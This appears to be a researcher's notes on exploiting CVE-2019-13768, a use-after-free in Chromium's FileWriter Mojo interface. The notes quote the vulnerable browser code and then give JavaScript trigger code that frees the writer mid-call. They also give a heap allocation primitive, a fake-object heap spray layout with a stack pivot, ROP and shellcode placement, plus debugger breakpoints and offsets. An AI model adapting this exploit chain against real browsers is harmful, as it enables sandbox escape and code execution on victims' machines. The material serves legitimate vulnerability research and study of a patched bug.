


# CVE-2019-13768

https://chromium.googlesource.com/chromium/src/+/975798170a17a651cb399bdc030b9991cf2c7b3a/storage/browser/fileapi/file_writer_impl.cc#26

### Vulnerability: UaF

- Vulnerability located in the FileWriter APIs. FileWriter is exposed by the Browser which allows renderers to performed writes within sandboxed filesystems

- Look at the codes below:

  ```
  interface FileSystemManager {
    ...
    CreateWriter(url.mojom.Url file_path) => (mojo_base.mojom.FileError result, blink.mojom.FileWriter? writer);
    ...
  };
  void FileSystemManagerImpl::CreateWriter(const GURL& file_path, CreateWriterCallback callback) {
    ...
    mojo::MakeStrongBinding(
      std::make_unique<storage::FileWriterImpl>(url, context_->CreateFileSystemOperationRunner(),blob_storage_context_->context()->AsWeakPtr()),
      MakeRequest(&writer)
    );
    ...
  }
  interface FileWriter {
    ...
    Write(uint64 position, Blob blob) => (mojo_base.mojom.FileError result, uint64 bytes_written);
    ...
  }
  void FileWriterImpl::Write(uint64_t position, blink::mojom::BlobPtr blob, WriteCallback callback) {
    blob_context_->GetBlobDataFromBlobPtr(
      std::move(blob),
      base::BindOnce(&FileWriterImpl::DoWrite, base::Unretained(this), std::move(callback), position)
    );
  }
  void BlobStorageContext::GetBlobDataFromBlobPtr(
    blink::mojom::BlobPtr blob,
    base::OnceCallback<void(std::unique_ptr<BlobDataHandle>)> callback
  ) {
    DCHECK(blob);
    blink::mojom::Blob* raw_blob = blob.get();
    raw_blob->GetInternalUUID(
      mojo::WrapCallbackWithDefaultInvokeIfNotRun(
        base::BindOnce(
          [](
            blink::mojom::BlobPtr, base::WeakPtr<BlobStorageContext> context,
            base::OnceCallback<void(std::unique_ptr<BlobDataHandle>)> callback,
            const std::string& uuid
          ) {
            if (!context || uuid.empty()) {
              std::move(callback).Run(nullptr);
              return;
            }
            std::move(callback).Run(context->GetBlobDataFromUUID(uuid));
          },
          std::move(blob), 
          AsWeakPtr(), 
          std::move(callback)
        ),
        ""
      )
    );
  }
  interface Blob {
    ...
    GetInternalUUID() => (string uuid);
  };
  ```

  - CreateWriter creates a FileWriter object which is a StrongBinding object. 
  
    - mojo::StrongBinding objects are objects with their own interface implementation and can control the lifetime of the object as per [this sketchy chinese blog](https://www.cnblogs.com/huangguanyuan/p/10320950.html)

  - FileWriter::Write() will call GetBlobDataFromBlobPtr

  - GetBlobDataFromBlobPtr will call argument blob's GetInternalUUID() function which needs to return a UUID

    - The callback function which will execute at the end of GetInternalUUID is DoWrite

  - When the GetInternalUUID() returns, we will find the blob associated with the UUID and call the callback function with the blob as an argument

  - We can specify our own asynchronous GetInternalUUID() to trigger the free and fills

  - When the DoWrite (the callback function) is finally executed, it references the freed FileWriter object

### Relevant codes for DoWrite

```
chrome!storage::FileSystemOperationRunner::GetMetadata+0x33
storage/browser/fileapi/file_system_operation_runner.cc

OperationID FileSystemOperationRunner::GetMetadata(
    const FileSystemURL& url,
    int fields,
    GetMetadataCallback callback) {
  base::File::Error error = base::File::FILE_OK;
  std::unique_ptr<FileSystemOperation> operation = base::WrapUnique(
    file_system_context_->CreateFileSystemOperation(url, &error)
  );
  FileSystemOperation* operation_raw = operation.get();
  OperationID id = BeginOperation(std::move(operation));
  base::AutoReset<bool> beginning(&is_beginning_operation_, true);
  if (!operation_raw) {
    DidGetMetadata(id, std::move(callback), error, base::File::Info());
    return id;
  }
  PrepareForRead(id, url);
  operation_raw->GetMetadata(
      url, fields,
      base::BindOnce(&FileSystemOperationRunner::DidGetMetadata, weak_ptr_, id,
                     std::move(callback)));
  return id;
}
```

```
chrome!storage::FileSystemContext::CreateFileSystemOperation+0x4c:
storage/browser/fileapi/file_system_context.cc

FileSystemOperation* FileSystemContext::CreateFileSystemOperation(
    const FileSystemURL& url, base::File::Error* error_code) {
  if (!url.is_valid()) {
    if (error_code)
      *error_code = base::File::FILE_ERROR_INVALID_URL;
    return nullptr;
  }

  FileSystemBackend* backend = GetFileSystemBackend(url.type());
  if (!backend) {
    if (error_code)
      *error_code = base::File::FILE_ERROR_FAILED;
    return nullptr;
  }

  base::File::Error fs_error = base::File::FILE_OK;
  FileSystemOperation* operation =
      backend->CreateFileSystemOperation(url, this, &fs_error); <- this is where you want to get to

  if (error_code)
    *error_code = fs_error;
  return operation;
}
```

```
FileSystemBackend* FileSystemContext::GetFileSystemBackend(FileSystemType type) const {
  auto found = backend_map_.find(type);
  if (found != backend_map_.end()) return found->second;
  NOTREACHED_IN_MIGRATION() << "Unknown filesystem type: " << type;
  return nullptr;
}
```

```
std::map<FileSystemType, FileSystemBackend*> backend_map_;
```

### Writing the trigger exploit (just DoS this shit)

1. Create File System Manager interface

    ```
    let file_system_manager_ptr = new blink.mojom.FileSystemManagerPtr();
    Mojo.bindInterface(blink.mojom.FileSystemManager.name, mojo.makeRequest(file_system_manager_ptr).handle, "process");
    ```

2. Create a valid FileWriter object

    ```
    var create_writer_result = await file_system_manager_ptr.createWriter(file_url);
    ```

    - file_url is of `url.mojom.Url` type

    - To create a valid file_url object:

        ```
        let host_url = new url.mojom.Url();
        host_url.url = window.location.href;

        let open_result = await file_system_manager_ptr.open(host_url, 0);

        let file_url = new url.mojom.Url();
        file_url.url = open_result.rootUrl.url + '/aaaa';
        ```

    - I feel like this is done by reading the Mojo documentation (bopez)

    - I feel like this can be done more than one way

3. Call Write() with the appropriate blob

    ```
    create_writer_result.writer.write(0, blob_impl_ptr);
    ```

    - To create a valid blob_impl_ptr with the appropriate GetInternalUUID

      ```
      function Blob0Impl() {
        this.binding = new mojo.Binding(blink.mojom.Blob, this);
      }

      Blob0Impl.prototype = {
        getInternalUUID: async (arg0) => {
          print('  [*] getInternalUUID');

          print('  [!] freeing FileWriterImpl');
          create_writer_result.writer.ptr.reset();

          Blob0();

          print('  [*] FileWriterImpl::DoWrite');
          return {'uuid': 'blob_0'};
        }
      };

      let blob_impl = new Blob0Impl();
      let blob_impl_ptr = new blink.mojom.BlobPtr();
      blob_impl.binding.bind(mojo.makeRequest(blob_impl_ptr));
      ```

    - Similarly, I feel like this is done by reading the Mojo documentation

    - To create and register a blob with the relevant uuid:

      ```
      let blob_registry_ptr = new blink.mojom.BlobRegistryPtr();
      Mojo.bindInterface(blink.mojom.BlobRegistry.name, mojo.makeRequest(blob_registry_ptr).handle, "process");

      async function Blob0() {
        function BytesProviderImpl() {
          this.binding = new mojo.Binding(blink.mojom.BytesProvider, this);
        }

        let bytes_provider = new BytesProviderImpl();
        let bytes_provider_ptr = new blink.mojom.BytesProviderPtr();
        bytes_provider.binding.bind(mojo.makeRequest(bytes_provider_ptr));

        let blob_ptr = new blink.mojom.BlobPtr();
        let blob_req = mojo.makeRequest(blob_ptr);

        let data_element = new blink.mojom.DataElement();
        data_element.bytes = new blink.mojom.DataElementBytes();
        data_element.bytes.length = 1;
        data_element.bytes.embeddedData = [0];
        data_element.bytes.data = bytes_provider_ptr;

        await blob_registry_ptr.register(blob_req, 'blob_0', "text/html", "", [data_element]);
      }
      ```

4. Output:

    

    - Somehow we manage to call CreateFileSystemOperation() and pass the url.is_valid() check. The dangling freed object must somehow still be abled to be dereferenced 1-2 times before dying when url.type() is called since url is not a valid object to begin with

      ```
      FileSystemOperation* FileSystemContext::CreateFileSystemOperation(const FileSystemURL& url, base::File::Error* error_code) {
      if (!url.is_valid()) {
        if (error_code)
          *error_code = base::File::FILE_ERROR_INVALID_URL;
        return nullptr;
      }

      FileSystemBackend* backend = GetFileSystemBackend(url.type()); <- Die here
      ...
      ```

### Road to exploitation: Replacement

- Given that we the URL object has been freed, we first need to replace it

- Use `BlobRegistry registerFromStream` method to create controllable heap allocator in the Browser

  ```
  function Allocation(size=280) {
    function ProgressClient() {
      function ProgressClientImpl() {
      }

      ProgressClientImpl.prototype = {
        onProgress: async (arg0) => {
        }
      };

      var progress_client_ptr = new mojo.AssociatedInterfacePtrInfo();
      var progress_client_req = mojo.makeRequest(progress_client_ptr);
      var progress_client_binding = new mojo.AssociatedBinding(
        blink.mojom.ProgressClient, new ProgressClientImpl(), progress_client_req);

      return progress_client_ptr;
    }

    this.pipe = Mojo.createDataPipe({elementNumBytes: size, capacityNumBytes: size});
    this.serialized_blob = blob_registry_ptr.registerFromStream("", "", size, this.pipe.consumer, ProgressClient());

    this.malloc = function(data) {
      this.pipe.producer.writeData(data);
    }

    this.free = function() {
      this.pipe.producer.close();
    }

    return this;
  }
  ```

- Output:

    

    - When we properly replace the dangling object, we die earlier at `file_system_context_->CreateFileSystemOperation(url, &error)` when we are attempting to set RCX as the URL object before calling CreateFileSystemOperation (RCX stores the first argument when calling a function)

    - `bp chrome_7ffe77d90000!storage::FileSystemOperationRunner::GetMetaData` / `bp chrome_7ffe77d90000+0x01661a99-0x33` (function call)

    - `bp chrome_7ffe77d90000!storage::FileSystemOperationRunner::GetMetaData+0x33` / `bp chrome_7ffe77d90000+0x01661a99` (mov rcx, [rcx+8])

    - `bp chrome_7ffe77d90000!storage::FileSystemContext::CreateFileSystemOperation+0x19` (cmp byte ptr [rdx],0 ds:PointerToDanglingObject+0x20=url_valid)

    - `bp chrome_7ffe77d90000!storage::FileSystemContext::CreateFileSystemOperation+0x4c`

### Road to exploitation: Proper replacement to support heap spray + heap spray

- We will replace the freed object such that +0x8 is a pointer to our heap, +0x20 is not 0 in order to pass the `is_valid()` check

- We will need to spray valid FileSystemURL objects such that one exists at 0x40404040000n

  - How to create the fake FileSystemURL object such that we can reach the `call`:

    1. CreateFileSystemOperation

        

    2. GetFileSystemBackend

        

    3. GetFileSystemBackend ret value

        

  - Modified heap spray object

    ```
    // kFileSystemOperationRunnerPtr
    page.setBigUint64(kFileSystemOperationRunnerPtrBaseAddressOffset + 0x0, 0xdeadbeefn, true); // kFileSystemOperationRunnerPtr
    page.setBigUint64(kFileSystemOperationRunnerPtrBaseAddressOffset + 0x8, kFileSystemContextPtr, true); // should point to kFileSystemContextPtr

    // kFileSystemContextPtr
    page.setBigUint64(kFileSystemContextPtrBaseAddressOffset + 0x78, kFileSystemBackendNodePtr, true); // kFileSystemBackendNodePtr

    // kFileSystemBackendNodePtr
    page.setBigUint64(kFileSystemBackendNodePtrBaseAddressOffset + 0x8, kSomeValuePtr, true); // kSomeValuePtr, needs to be bigger than 
    page.setBigUint64(kFileSystemBackendNodePtrBaseAddressOffset + 0x20, 0x0n, true);
    page.setBigUint64(kFileSystemBackendNodePtrBaseAddressOffset + 0x28, kThisShouldPointToHeapPtrWhichPointsToStartOfRop, true); // kFileSystemBackendPtr

    // kSomeValuePtr
    page.setBigUint64(kSomeValuePtrBaseAddressOffset + 0x0, kSomeValueAgainPtr, true); // kSomeValueAgainPtr
    page.setBigUint64(kSomeValuePtrBaseAddressOffset + 0x19, 0x0n, true);
    page.setBigUint64(kSomeValuePtrBaseAddressOffset + 0x28, kThisShouldPointToHeapPtrWhichPointsToStartOfRop, true); // kFileSystemBackendPtr

    // kSomeValueAgainPtr
    page.setBigUint64(kSomeValueAgainPtrBaseAddressOffset + 0x19, 0x1n, true);

    // kFileSystemBackendPtr / kThisShouldPointToHeapPtrWhichPointsToStartOfRop
    page.setBigUint64(kThisShouldPointToHeapPtrWhichPointsToStartOfRopBaseAddressOffset + 0x0, kSomeValueAgainAgainPtr, true); // kSomeValueAgainAgainPtr
    page.setBigUint64(kThisShouldPointToHeapPtrWhichPointsToStartOfRopBaseAddressOffset + 0x10, kHeapPtrToStartOfRop, true); // kHeapPtrToStartOfRop
    page.setBigUint64(kThisShouldPointToHeapPtrWhichPointsToStartOfRopBaseAddressOffset + 0x50, ret_gadget_ptr, true); // rdx

    // kSomeValueAgainAgainPtr
    page.setBigUint64(kSomeValueAgainAgainPtrBaseAddressOffset + 0x38, pivot_gadget_ptr, true); // will jmp rdx at the end, so rdx should be a ret

    // kHeapPtrToStartOfRop
    for (var i = 0; i < stack.byteLength; ++i) {
      page.setUint8(kHeapPtrToStartOfRopBaseAddressOffset + i, stack.getUint8(i));
    }

    // kPtrToStartOfShellCode
    for (var i = 0; i < shellcode.byteLength; ++i) {
      page.setUint8(kPtrToStartOfShellCodeBaseAddressOffset + i, shellcode.getUint8(i));
    }
    ```

- We will spray in 0x1000 bytes (technically 0x40404041000n should work as well?)

  - Lowest heap address

    

### Debugging

- Pointer to freed object

  

- Stack Pivoting

  

- RIP Control

  

# Others

### Finding Offsets

- g_core for list of Mojo handles

  ```
  0:013> dq chrome_child!g_core
  00007fff`9d838168  000001f6`51648f10 00007fff`9d838178
  00007fff`9d838178  00000000`00000014 00000000`00000000
  00007fff`9d838188  00000000`8000001f 00000000`00000000
  00007fff`9d838198  00007fff`9cbc6a38 00000000`8000001e
  00007fff`9d8381a8  00000000`00000000 00000000`00000000
  00007fff`9d8381b8  00000000`00000000 00007fff`9d807f20
  00007fff`9d8381c8  00000000`00000000 00000000`00000000
  00007fff`9d8381d8  00000000`00000000 00000000`00000000
  0:013> ? chrome_child!g_core-chrome_child
  Evaluate expression: 87130472 = 00000000`05318168
  0:013> dt chrome_child!mojo::core::Core 00007fff`9d838168
    +0x000 __VFN_table : 0x000001f6`51648f10 
    +0x008 node_controller_lock_ : base::Lock
    +0x010 node_controller_ : std::unique_ptr<mojo::core::NodeController,std::default_delete<mojo::core::NodeController> >
    +0x018 default_process_error_callback_ : base::RepeatingCallback<void (const std::basic_string<char,std::char_traits<char>,std::allocator<char> > &)>
    +0x020 handles_         : std::unique_ptr<mojo::core::HandleTable,std::default_delete<mojo::core::HandleTable> >
    +0x028 mapping_table_lock_ : base::Lock
    +0x030 mapping_table_   : std::unordered_map<void *,std::unique_ptr<mojo::core::PlatformSharedMemoryMapping,std::default_delete<mojo::core::PlatformSharedMemoryMapping> >,std::hash<void *>,std::equal_to<void *>,std::allocator<std::pair<void *const,std::unique_ptr<mojo::core::PlatformSharedMemoryMapping,std::default_delete<mojo::core::PlatformSharedMemoryMapping> > > > >
  ```

### Mojo Related

https://chromium.googlesource.com/chromium/src/+/refs/heads/main/mojo/core/core.h

https://chromium.googlesource.com/chromium/src/+/master/mojo/core/README.md

https://chromium.googlesource.com/chromium/src.git/+/refs/tags/91.0.4472.29/mojo/core/entrypoints.cc

https://chromium.googlesource.com/chromium/src/+/HEAD/mojo/core/dispatcher.cc

https://chromium.googlesource.com/chromium/src.git/+/72.0.3626.80/third_party/blink/web_tests/mojo/shared-buffer.html?autodive=0%2F%2F%2F

### Exploit Related

https://ruan777.github.io/2021/12/17/Chrome_issue1755%E5%88%86%E6%9E%90/

### Settings


- Need to have enough resources and memory in the VM for the exploit to work